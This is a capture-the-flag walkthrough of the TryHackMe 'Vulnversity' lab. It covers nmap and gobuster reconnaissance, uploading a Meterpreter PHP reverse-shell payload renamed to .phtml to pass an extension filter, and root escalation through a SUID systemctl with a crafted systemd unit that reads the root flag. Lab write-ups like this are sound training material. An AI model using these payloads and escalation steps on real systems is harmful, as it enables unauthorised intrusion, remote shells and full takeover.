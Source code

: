 <!-- TOC -->

- [Vulnversity](#vulnversity)
    - [Reconnaissance](#reconnaissance)
    - [Locating directories using GoBuster](#locating-directories-using-gobuster)
    - [Compromise the webserver](#compromise-the-webserver)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Vulnversity

[Vulnversity Room](https://tryhackme.com/room/vulnversity)

Learn about active recon, web app attacks and privilege escalation.

| Title | IP Address |
| :---- | :---- |
| VulnUniversity | `1*.**.***.*` |

## Reconnaissance

```bash
nmap -sC -sV 1*.**.***.*
```

> ```
> . . .
> 21/tcp   open  ftp         vsftpd 3.0.3
> 22/tcp   open  ssh         OpenSSH 7.2p2 U***** 4u*****2.7 (U***** Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
> |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
> |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 4.3.11-U***** (workgroup: WORKGROUP)
> 3128/tcp open  http-proxy  Squid http proxy 3.*.**
> |_http-server-header: squid/3.5.12
> |_http-title: ERROR: The requested URL could not be retrieved
> 3***/tcp open  http        Apache httpd 2.4.18 ((U*****))
> |_http-server-header: Apache/2.4.18 (U*****)
> |_http-title: Vuln University
> Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
> . . .
> ```

## Locating directories using GoBuster

```bash
gobuster dir -u http://1*.**.***.*:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```

> ```
> /images               (Status: 301) [Size: 318] [--> http://1*.**.***.*:3333/images/]                                 
> /css                  (Status: 301) [Size: 315] [--> http://1*.**.***.*:3333/css/]                                    
> /js                   (Status: 301) [Size: 314] [--> http://1*.**.***.*:3333/js/]                                     
> /fonts                (Status: 301) [Size: 317] [--> http://1*.**.***.*:3333/fonts/]                                  
> /i*******             (Status: 301) [Size: 320] [--> http://1*.**.***.*:3333/i*******/]
> ```

## Compromise the webserver

![Burp](burp.png)

```bash
msfpc php 1*.*.**.** 80
msfconsole -q -r '/home/***/***/php-meterpreter-staged-reverse-tcp-80-php.rc'
mv php-meterpreter-staged-reverse-tcp-80.php php-meterpreter-staged-reverse-tcp-80.phtml
```

RHOST:

```bash
cd /home
cd b***
cat user.txt
```

> `'********************************`

## Privilege Escalation

Using [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

> `-rwsr-xr-x 1 root root 645K Feb 13  2019 /bin/s********`

Using [GTFOBins](https://gtfobins.github.io/):

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
cat /tmp/output
```

> `a*******************************`
